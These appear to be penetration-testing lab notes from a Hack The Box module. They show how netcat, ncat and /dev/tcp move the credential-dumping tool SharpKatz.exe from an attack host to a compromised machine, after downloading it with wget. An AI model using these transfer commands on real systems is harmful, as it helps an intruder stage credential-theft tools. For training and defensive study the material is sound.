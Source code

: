 
#### NetCat - Compromised Machine - Listening on Port 8000


```shell
victim@target:~$ # Example using Original Netcat
victim@target:~$ nc -l -p 8000 > SharpKatz.exe


victim@target:~$ # Example using Ncat
victim@target:~$ ncat -l -p 8000 --recv-only > SharpKatz.exe

```

#### Netcat - Attack Host - Sending File to Compromised machine


```shell
vincentcheung@htb[/htb]$ wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe

vincentcheung@htb[/htb]$ # Example using Original Netcat

vincentcheung@htb[/htb]$ nc -q 0 192.168.49.128 8000 < SharpKatz.exe

```

#### Ncat - Attack Host - Sending File to Compromised machine


```shell
vincentcheung@htb[/htb]$ wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe

vincentcheung@htb[/htb]$ # Example using Ncat

vincentcheung@htb[/htb]$ ncat --send-only 192.168.49.128 8000 < SharpKatz.exe
```


#### Attack Host - Sending File as Input to Netcat


```shell

vincentcheung@htb[/htb]$ # Example using Original Netcat
vincentcheung@htb[/htb]$ sudo nc -l -p 443 -q 0 < SharpKatz.exe

```

#### Compromised Machine Connect to Netcat to Receive the File

```shell

victim@target:~$ # Example using Original Netcat
victim@target:~$ nc 192.168.49.128 443 > SharpKatz.exe

```


#### Attack Host - Sending File as Input to Ncat


```shell

vincentcheung@htb[/htb]$ # Example using Ncat
vincentcheung@htb[/htb]$ sudo ncat -l -p 443 --send-only < SharpKatz.exe

```

#### Compromised Machine Connect to Ncat to Receive the File

  

```shell

victim@target:~$ # Example using Ncat
victim@target:~$ ncat 192.168.49.128 443 --recv-only > SharpKatz.exe

```


#### NetCat - Sending File as Input to Netcat


```shell

vincentcheung@htb[/htb]$ # Example using Original Netcat
vincentcheung@htb[/htb]$ sudo nc -l -p 443 -q 0 < SharpKatz.exe

```

#### Ncat - Sending File as Input to Ncat


```shell

vincentcheung@htb[/htb]$ # Example using Ncat
vincentcheung@htb[/htb]$ sudo ncat -l -p 443 --send-only < SharpKatz.exe

```

#### Compromised Machine Connecting to Netcat Using /dev/tcp to Receive the File


```shell

victim@target:~$ cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe

```